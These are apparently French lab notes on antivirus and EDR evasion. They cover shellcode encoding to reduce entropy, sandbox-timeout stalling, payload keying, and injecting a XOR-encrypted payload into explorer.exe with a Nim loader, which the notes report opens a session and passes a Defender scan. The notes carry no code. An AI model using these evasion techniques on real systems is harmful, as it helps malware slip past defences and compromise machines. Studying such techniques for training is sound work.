ℹ Remarque : Notez que le chiffrement d'un très gros blob de shellcode augmentera l'entropie de votre fichier, ce qui pourrait devenir un indicateur de malveillance. Pour y remédier, envisagez d'utiliser différents schémas de codage, par exemple en encodant votre shellcode chiffré dans une chaîne de caractères contenant des mots anglais.

Si j'ai le temps, je vais tenter d'encoder le shellcode dans une chaine de caractère pour voir si différence, comme recommandé.

On pourrait aussi contourner l'analyse dynamique :

Parce que les antivirus ont des ressources limitées à gérer, les opérations de scan coûteuses ne sont généralement effectuées que sur les processus suspects. Nous pouvons abuser des raccourcis qu'un antivirus prend, par exemple en ne déclenchant notre charge utile que lorsqu'elle correspond à l'environnement cible (« payload keying »), en effectuant des opérations innocentes jusqu'à ce qu'un environnement sandbox expire (30-60s), ou en faisant passer notre code malveillant pour inoffensif lorsque nous attendons qu'un antivirus le scanne (par exemple suspended thread injection). Il n'y a vraiment aucune limite au déploiement de ces contournements, si ce n'est votre créativité !

# Exercice 3 - bonus

Récupération du shell code crypté à l'exercice 3

Adaptation de EDREvasion.nim pour récupérer le pid de explorer.exe et y rattacher le payload + adaptation de la clé de cryptage sur un seul byte pour l'opération de cryptage avec XOR : 0x37 => 0x24

Récupération des appels systèmes syscalls.nim

METTRE LES LIENS VERS LE CODE 

Compilation de EDREvasion.nim, dépôt et exécution de l'exécutable sur la machine cible.

Ca fonctionne :

Lancement de EDREvasion.exe : 



Session 13 opened :



Passe inconito ! Copie de EDREvasion.exe sur le bureau (car Documents exclu de l'analyse) et analyse avec Microsoft Defender :


